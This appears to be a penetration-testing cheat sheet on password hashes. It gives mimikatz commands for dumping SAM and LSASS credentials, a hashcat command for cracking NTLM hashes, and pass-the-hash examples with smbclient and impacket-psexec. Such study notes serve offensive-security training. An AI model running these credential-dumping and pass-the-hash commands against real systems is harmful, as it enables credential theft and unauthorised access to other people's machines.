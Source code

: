 # Password Hashes

## CRAKING METHODOLOGY
1. Extract hashes
2. Format hashes
3. Calculate the cracking time
4. Prepare wordlist
5. Attack the hash
* Identify a hash: hashid HASH
* Cracking: https://hashes.com/en/decrypt/hash https://crackstation.net/
* Hashcat: https://www.kali.org/tools/hashcat/

## Mimikatz
We use mimikatz to dump the SAM hashes. Also to extract the password hash from LSASS

* ⚠️ We must launch mimikatz from an administrative command prompt
* ⚠️ We must execute two commands "privilege::debug" and "token:elevate"

Usage:
* 1.- mimikatz.exe
* 2.- privilege::debug
* 3.- token::elevate
* 4.- lsadump::sam

## Cracking NTLM
* Get-LocalUser -> to check which users exist locally on the system.
* mimikatz.exe
* privilege::debug
* token::elevate
* lsadump::sam
* Save the hash like user.hash
* hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

## Passing the hash
We can use this technique to authenticate to a local or remote target with a valid combination of username and NTLM hash 
rather than a plaintext password.
* mimikatz.exe
* privilege::debug
* token::elevate
* lsadump::sam
* We need some tools to execute the PtH (Pass-The-Hash)
### SMB Enumeration
* smbmap
* smbclient
* crackmapexec
### Command execution
* impacket (psexec, smbexec, wmiexec)
### Example
* smbclient \\\\IP\\folder -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
* impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@IP (It's 32 0's)
